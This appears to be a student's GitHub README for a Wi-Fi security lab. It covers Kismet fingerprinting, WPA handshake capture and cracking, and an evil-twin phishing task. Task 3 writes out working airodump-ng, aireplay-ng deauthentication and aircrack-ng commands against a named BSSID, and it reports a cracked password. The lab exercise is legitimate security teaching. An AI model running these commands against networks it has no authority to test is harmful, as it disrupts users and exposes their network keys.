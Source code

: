 # CyberSecurity_lab

1. Learn the basic working of Wi-Fi and its types with various types of attacks on it.


2. Perform Wi-Fi fingerprinting using Wigile, Inssider, and Kismet.

#### Kismet -

Put Your Wireless Card in Monitor Mode

 - `sudo airmon-ng start wlan0`

![image](https://user-images.githubusercontent.com/67383098/230551170-37f0d414-dd18-4c86-b728-5cfbacc2f2d3.png)

Launch Kismet

![image](https://user-images.githubusercontent.com/67383098/230552556-1d7bd6a6-bc11-4152-9989-001327bbfb93.png)


kismet -c wlanomon



![image](https://user-images.githubusercontent.com/67383098/230552480-bdc61d8a-b846-4b13-a472-d352e2c0d806.png)


![image](https://user-images.githubusercontent.com/67383098/230552332-32a6be07-3554-4bff-9661-17fe92d3b727.png)


3. Create an Access point with any Wi-Fi encryption standard and start testing the security of
that connection using any Wi-Fi security testing tools, which should include (Aircrack-Ng,
Wifite, not limited). Try to capture the 4-way handshake using these methods.

![image](https://user-images.githubusercontent.com/67383098/230554024-50eefd46-08d0-4e50-a525-dd92dec5881a.png)

airodump-ng wlan0

![image](https://user-images.githubusercontent.com/67383098/230555155-dc581e48-5db2-4a9d-b319-0dd5f2197e66.png)

Focus Airodump-Ng on One AP on One Channel

airodump-ng --bssid EA:B0:24:9F:4A:50  -c 5 --write WPAcrack wlan0

![image](https://user-images.githubusercontent.com/67383098/230556046-cc586b48-b820-4505-9169-646d9a28cff4.png)

Aireplay-Ng Deauth

aireplay-ng --deauth 100 -a EA:B0:24:9F:4A:50 wlan0

![image](https://user-images.githubusercontent.com/67383098/230556612-09f1a09a-3aa7-49f5-ad7f-7ad0435c226a.png)

Password is `c6dp6m2k`

![image](https://user-images.githubusercontent.com/67383098/230557921-fe84d8c4-95d1-48c9-b34d-eb4152d05847.png)

aircrack-ng WPAcrack-03.cap  -w /usr/share/wordlists/rockyou.txt

![image](https://user-images.githubusercontent.com/67383098/230556884-b437c7ae-6f60-4174-be73-a34409ed85ec.png)


4. After capturing the required files for testing, use dictionary generation and password
cracking tools to crack the Wi-Fi password.
a. You must use an existing word file to crack the password.
b. Also you have to create your dictionary file for cracking the passwords.
c. Keep 3 different types of passwords for your Wi-Fi to test it. Simple, medium, and
complex passwords can be used for testing. Simple can be a dictionary word,
medium can be of dictionary word with some numbers, and complex can be
generated from any password generator online.


5. Use Rouge AP (WifiPhisher) to create an Evil twin, perform a basic phishing attack using this
rouge AP, and document the difference between the two attacks you have performed.


6. Learn the protocol level working of WPA3 and how it differs from WPA2.





Reference Links: [Not Limited]
1. https://github.com/wifiphisher/wifiphisher
2. https://web.stanford.edu/class/ee26n/Assignments/Assignment7.html
3. https://www.wifi-professionals.com/2019/01/4-way-handshake
4. https://nooblinux.com/crack-wpa-wpa2-wifi-passwords-using-aircrack-ng-kali-linux/
5. https://en.wikipedia.org/wiki/IEEE_802.11
